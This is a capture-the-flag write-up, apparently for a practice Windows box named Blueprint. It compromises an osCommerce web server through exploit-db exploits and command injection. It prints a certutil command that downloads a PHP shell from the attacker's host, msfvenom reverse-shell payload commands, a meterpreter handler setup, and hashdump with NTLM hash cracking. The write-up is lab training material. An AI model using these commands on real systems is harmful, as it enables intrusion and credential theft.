 ## Blueprint

---

Tags: Windows, web server, website, CVE, php shell

Tools: nmap, burpsuite, dirb, smbmap, smbclient, sqlmap, exploit-db, python, php, revshells.com, wireshark, certutil, metasploit, msfconsole, msfvenom, crackstation

Process:

* I started off with an nmap scan as usual. This time I just started with a `nmap -Pn <IP> > <file>` because the previous boxed required -Pn. Then I used the ports found with that scan in a `nmap -A -p<Comma separated ports from previous scan> <IP> > <file>`

* Port 80 is open and the nmap scan says the TRACE method is enabled, so I tried navigating to "http://\<ip\>/" and sending a trace request to the web server via burpsuite. I got 404 and 501 errors respectively.

* These error make me think that the webserver is running but doesn't have an index.html or doesn't automatically forward to a webpage and I would have to find the page/directories myself. I started a scan with dirb.

* While that scan is running

    * I moved on to port 8080. "http://\<ip\>:8080"

        * This had a directory with some folders and navigating to catalog gives an eshop while there is another folder with docs

        * There's a db schema in the docs, which probably corresponds to the db on port 3306, but `sqlmap` couldn't connect, and after trying to connect in the browser (so essentially a GET request), it said I couldn't connect and it looks like I'll have to pivot to access it.

    * I also ran a `smbmap <ip> -u anonymous` scan and was able to get a share list

        * I connected to the readonly users share with `smbclient \\\\<ip>\\Users -U anonymous`

        * This worked. I got into the share, but I'm not sure that there was anything valuable. The only thing was NTUSER.DAT files which I may investigate further later if nothing else is happening as I'm fairly certain these aren't helpful to the attack.

* Next, I searched the name of the eshop framework "osCommerce" on `exploit-db` and there are many exploits.

* I copy and pasted the exploit from "https://www.exploit-db.com/exploits/50128" into a python file and ran it. This gave me a system level shell on the machine!

* The problem is that this shell was... not great. I couldn't change directories and many commands didn't return any output.

* So, I went back and repeated the exploit-db process with "https://www.exploit-db.com/exploits/44374" and inserted the correct addresses and payload from `revshells.com`

* It looks like the system command was disabled for security. Maybe I misconfigured. I retried by inserting the payload differently. I did this a few different ways and it seems that I have botched the exploit bad enough to warrant trying a restart of the machine...

* It turns out all I had to do was use `exec()` instead of `system()` for the payload in the exploit. I verified using `wireshark` and inserting a ping command to myself as the payload.

* I then changed the injected command to make it download a PentestMonkey PHP shell from my machine and then went to the exploit directory on the server and changed the file being accessed from config.php to my shell.php

    * `certutil` is apparently standard on windows machines and is a way to perform functions alternative to curl and wget which I was trying to no avail.

    * using `shell_exec()` worked, but I believe `exec()` did as well. I prepended `echo` to the payload to more easily debug when I visited the exploit page.

    * The final command I ended up using for the payload was `echo shell_exec("certutil -urlcache -f http://<my IP>:<my port>/shell.php shell.php")`

* Finally, after MUCH tweaking approaches, I used `echo shell_exec("certutil -urlcache -f http://<my IP>:<my port>/shell.php shell.php")` after making an msfvenom payload `msfvenom -p php/reverse_php LHOST=<my ip> LPORT<my port> -o shell.php`

* After like an hour and a half... this shell has the same problem as the earlier one... time to try msfconsole again...

* The reason msf didn't work earlier was because I needed to set the URI properly. I just opened msf, searched for osCommerce, went through every option making sure it was set properly, and ran it. This worked.

* This shell was again unstable though... So I made a msfvenom payload with `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my ip> LPORT=<my port> -f exe -o shell.exe`

    * I opened a new msfconsole using multi/handler, *set the payload to match the msfvenom payload*, set the LHOST and LPORT to mine and ran it

    * On the first msf I uploaded and ran execute -f shell.exe

* *Finally*, a stable shell! Experience is the cost of learning, no matter how frusterating it is at the time.

* I grabbed the NTLM hash for the first flag with hashdump

    * I cracked the hash with `crackstation`

* I navigated to Administrator's Desktop for the root flag.

---